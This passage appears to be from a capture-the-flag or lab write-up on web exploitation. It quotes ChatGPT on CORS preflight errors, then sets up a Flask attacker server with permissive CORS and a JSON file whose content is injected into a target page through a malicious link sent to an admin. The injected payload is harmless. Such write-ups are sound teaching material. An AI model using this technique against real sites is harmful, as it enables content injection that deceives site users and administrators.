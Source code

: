 We get a hit, but it's a `501: message Unsupported method ('OPTIONS')`. Let's check ChatGPT 🧠

#### CORS

> The error message you're encountering indicates that the server does not support the `OPTIONS` HTTP method. This is often related to Cross-Origin Resource Sharing (CORS) preflight requests, which are automatically sent by the browser when certain conditions are met, such as:
>
> 1.  Using HTTP methods other than GET, HEAD, or POST.
> 2.  Using custom headers.
> 3.  Sending any data in the request body other than simple text.

As far as I can tell, the only condition that applies is `(2)` since the `X-CSRFToken` header is included in the fetch request.

One possible workaround is to provide a `no-cors` option as a parameter in the fetch call. However, we'll have no control over this code when delivering our malicious link to the admin.

Instead, let's handle the OPTIONS request on the attacker server. We can easily create a basic Flask application to manage this.

```python
from flask import Flask, send_from_directory
from flask_cors import CORS
import os

app = Flask(__name__)
CORS(app)

@app.route('/', methods=['GET', 'POST'])
def index():
    current_dir = os.path.dirname(os.path.abspath(__file__))
    return send_from_directory(current_dir, 'index.json')

if __name__ == '__main__':
    app.run(debug=True)
```

We must find a way around the JSON format error, so let's add a simple `index.json` file.

```json
{ "content": "I just injected this :)", "status": "success" }
```

We visit the same URL and this time, the OPTIONS request is followed up with a GET (`200 OK`).

![](images/11.png)

Checking the browser confirms that the `content` from our `index.json` file has been successfully injected into the page!
